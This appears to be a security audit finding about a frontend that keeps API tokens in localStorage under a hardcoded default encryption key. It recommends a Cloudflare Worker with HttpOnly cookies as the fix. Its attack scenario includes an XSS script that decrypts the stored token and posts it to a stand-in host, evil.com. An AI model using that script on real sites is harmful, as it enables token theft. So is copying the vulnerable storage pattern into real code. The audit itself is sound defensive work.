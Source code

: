 **Issue:** Tokens stored in `localStorage` with hardcoded encryption key

**Code Location:** `src/services/tokenResolver.ts`

```typescript
// CRITICAL SECURITY ISSUE
const ENCRYPTION_KEY = import.meta.env.VITE_ENCRYPTION_SECRET || 'default-key-12345';
const encryptedToken = encryptToken(token, ENCRYPTION_KEY);
localStorage.setItem(`ace_token_${siteId}`, encryptedToken);
```

**Risks:**
1. **XSS Attacks:** Any XSS can read `localStorage` and decrypt tokens
2. **Hardcoded Key:** If `.env` not set, uses weak default key
3. **No Rotation:** Tokens stored indefinitely without rotation
4. **No Audit Trail:** No logging of token access

**Attack Scenario:**
```javascript
// Attacker injects script via XSS
<script>
  const encrypted = localStorage.getItem('ace_token_ses_falls_city');
  const key = 'default-key-12345'; // or extract from source maps
  const token = decrypt(encrypted, key);
  // Exfiltrate token to attacker's server
  fetch('https://evil.com/steal', { method: 'POST', body: token });
</script>
```

**Impact:**
- **Confidentiality:** ★★★★★ (Critical) - Full ACE API access
- **Integrity:** ★★★☆☆ (Medium) - Attacker can modify building data
- **Availability:** ★★☆☆☆ (Low) - Attacker can exhaust API quotas

**Solution: Implement HttpOnly Cookie Strategy**

```typescript
// RECOMMENDED: Use Cloudflare Worker to manage tokens
// 1. Store tokens in Cloudflare KV (encrypted at rest)
// 2. Issue short-lived session cookies (HttpOnly, Secure, SameSite)
// 3. Worker exchanges session cookie for ACE API token
// 4. Frontend never sees raw tokens

// Worker endpoint
async function handleTokenExchange(request, env) {
  const sessionId = request.cookies.get('session_id');
  const token = await env.TOKEN_KV.get(`session:${sessionId}`);

  // Call ACE API with token
  const response = await fetch('https://flightdeck.aceiot.cloud/api/sites', {
    headers: { 'authorization': `Bearer ${token}` }
  });

  return response;
}
```
